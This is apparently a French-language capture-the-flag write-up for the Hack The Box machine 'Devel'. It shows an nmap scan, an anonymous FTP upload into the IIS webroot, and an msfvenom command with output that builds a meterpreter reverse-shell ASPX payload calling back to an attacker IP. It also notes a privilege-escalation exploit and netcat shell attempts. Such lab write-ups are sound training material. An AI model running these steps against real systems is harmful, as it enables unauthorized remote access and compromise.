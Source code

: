# HTB Devel 10.10.10.5


OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
No hotfix

ftp anonymous upload to c:\inetpub\wwwroot de IIS7
Upload meterpreter aspx payload (msfvenom)
MS10_015 ?? Pas reussi metasploit, .exe
ms15_051_client_copy_image : meterpreter : ok



## nmap
```
nmap -sC -sV 10.10.10.5
```
-> anonymous ftp
-> IIS 7


# ftp anonymous upload tst.htm

Le ftp permet d'uploader des fichiers directement dans le répertoire c:\inetpub\wwwroot de IIS7
```
cat tst.htm
hello

ftp 10.10.10.5
anonymous
put tst.htm
```

# ftp anonymous upload reverse meterpreter aspx

Generate meterpreter aspx shell
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.30 LPORT=1234 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2824 bytes
Saved as: shell.aspx
```

Et on l'upload
```
put shell.aspx
```

Note : test avec d'autres payload pour obtenir un nc
windows/powershell_reverse_tcp : rien ne se passe sur nc
windows/shell/reverse_tcp : Connection sur nc, puis plus rien
